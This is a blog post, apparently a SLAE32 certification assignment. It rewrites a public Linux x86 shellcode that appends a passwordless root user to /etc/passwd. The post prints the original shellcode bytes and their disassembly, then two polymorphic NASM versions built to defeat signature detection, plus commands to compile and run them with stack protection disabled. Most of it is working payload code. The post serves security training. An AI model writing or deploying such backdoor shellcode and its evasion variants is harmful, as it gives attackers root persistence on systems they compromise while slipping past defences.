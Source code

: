 ```yaml
---
layout: single
title: Shell-Storm Polymorphism
date: 2019-10-12
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
The main goal is to take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching, the conditions are:
- The polymorphic versions cannot be larger 150% of the exisSng shellcode 
- Try to get it shorter in length than original

## Linux/x86 - adds a root user no-passwd to /etc/passwd - 83 bytes 
First shellcode is for add uid 0 gid 0 in /etc/passwd, we start from [this shellcode](http://shell-storm.org/shellcode/files/shellcode-548.php) of 83 bytes and try to realize a new smaller shellcode.<br>
```C
/* Linux x86 shellcode, to open() write() close() and */
/* exit(), adds a root user no-passwd to /etc/passwd */
/* By bob from dtors.net */

#include <stdio.h>

char shellcode[]=
		"\x31\xc0\x31\xdb\x31\xc9\x53\x68\x73\x73\x77"
		"\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74"
		"\x89\xe3\x66\xb9\x01\x04\xb0\x05\xcd\x80\x89"
		"\xc3\x31\xc0\x31\xd2\x68\x6e\x2f\x73\x68\x68"
		"\x2f\x2f\x62\x69\x68\x3a\x3a\x2f\x3a\x68\x3a"
		"\x30\x3a\x30\x68\x62\x6f\x62\x3a\x89\xe1\xb2"
		"\x14\xb0\x04\xcd\x80\x31\xc0\xb0\x06\xcd\x80"
		"\x31\xc0\xb0\x01\xcd\x80";

int
main()
{
        void (*dsr) ();
        (long) dsr = &shellcode;
        printf("Size: %d bytes.\n", sizeof(shellcode)); 
        dsr();
}
```
Now we check the Assembly using ndisasm
```
00000000  31C0              xor eax,eax
00000002  31DB              xor ebx,ebx
00000004  31C9              xor ecx,ecx
00000006  53                push ebx
00000007  6873737764        push dword 0x64777373
0000000C  68632F7061        push dword 0x61702f63
00000011  682F2F6574        push dword 0x74652f2f
00000016  89E3              mov ebx,esp
00000018  66B90104          mov cx,0x401
0000001C  B005              mov al,0x5
0000001E  CD80              int 0x80
00000020  89C3              mov ebx,eax
00000022  31C0              xor eax,eax
00000024  31D2              xor edx,edx
00000026  686E2F7368        push dword 0x68732f6e
0000002B  682F2F6269        push dword 0x69622f2f
00000030  683A3A2F3A        push dword 0x3a2f3a3a
00000035  683A303A30        push dword 0x303a303a
0000003A  68626F623A        push dword 0x3a626f62
0000003F  89E1              mov ecx,esp
00000041  B214              mov dl,0x14
00000043  B004              mov al,0x4
00000045  CD80              int 0x80
00000047  31C0              xor eax,eax
00000049  B006              mov al,0x6
0000004B  CD80              int 0x80
0000004D  31C0              xor eax,eax
0000004F  B001              mov al,0x1
00000051  CD80              int 0x80
```
Ok we have some chances here, first the ```close()``` syscall isn't necessary as we saw in the [msfvenon adduser payload](https://blackcloud.me/SLAE32-5-1/), next we can clean some eax and edx register xoring operations changing it with the ```mul``` instruction, another change we can make is to substitute the ```push <register>, esp``` with the load effective address instruction ```lea <register>, [esp]```, last we can change the ```push``` and  ```push dword``` instructions with ```mov```. In this case we have a good polymorphism but the shellcode lenght is 107 bytes against the original 86 bytes.<br>

```nasm
xor ebx, ebx
xor ecx, ecx
mov cx, 0x401
mul ebx                           ; this put 0 in eax and edx
mov [esp-4], ebx                  ; same as push
mov dword [esp-8], 0x64777373     ; same as push
mov dword [esp-12], 0x61702f63    ; same as push
mov dword [esp-16], 0x74652f2f    ; same as push
sub esp, 16
lea ebx, [esp]                    ; same as mov the stack pointer to ebx
mov al, 0x5
int 0x80
xchg ebx, eax                     ; move fd pointer in ebx
mul edx                           ; this put 0 in eax and edx
mov dword [esp-4], 0x68732f6e     ; hs/nib/:/::0:0::resU
mov dword [esp-8], 0x69622f3a     ;
mov dword [esp-12], 0x2f3a3a30    ;
mov dword [esp-16], 0x3a303a3a    ;
mov dword [esp-20], 0x72657355    ;
sub esp, 20
lea ecx, [esp]                    ; same as mov the stack pointer to ecx
mov dl, 0x14
mov al, 0x4
int 0x80                    ; exit syscall now, the close syscall isn't necessary
sub al, 0x13                ; write() return the number of byte written (14) 14 - 13 = 1
int 0x80
```
```bash
root@slae32-lab:# gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
root@slae32-lab:# ./shellcode 
Shellcode Length:  107

```
If we leave the ```push``` and  ```push dword``` instructions the lenght is 74 bytes, less than original.

```nasm
xor ebx, ebx
xor ecx, ecx
mov cx, 0x401
mul ebx                           ; this put 0 in eax and edx
push ebx                  
push dword 0x64777373     
push dword 0x61702f63    
push dword 0x74652f2f    
lea ebx, [esp]                    ; same as mov the stack pointer to ebx
mov al, 0x5
int 0x80
xchg ebx, eax                     ; move fd pointer in ebx
mul edx                           ; this put 0 in eax and edx
push dword 0x68732f6e             ; -------------------------
push dword 0x69622f3a             ;
push dword 0x2f3a3a30             ; hs/nib/:/::0:0::resU
push dword 0x3a303a3a             ;
push dword 0x72657355             ; -------------------------
lea ecx, [esp]                    ; same as mov the stack pointer to ecx
mov dl, 0x14
mov al, 0x4
int 0x80                    ; exit syscall now, the close syscall isn't necessary
sub al, 0x13                ; write() return the number of byte written (14) 14 - 13 = 1
int 0x80
```
```bash
root@slae32-lab:# gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
root@slae32-lab:# ./shellcode 
Shellcode Length:  74

```
Let's test both shellcodes, the biggest ```shellcode_adduser_big``` and the smallest ``` shellcode_adduser_big```.<br>
![](/assets/images/SLAE32/assignment_6/adduser_poly.gif).<br>
<br>
All the codes used in this post are available in my dedicated [github repo](https://github.com/bolonobolo/SLAE32_code).<br>
<br>
This blog post has been created for completing the requirements <br>
of the SecurityTube Linux Assembly Expert certification: [SLAE32 Course](http://securitytube-­training.com/online­‐courses/securitytube­‐linux­‐assembly­‐expert/)<br>
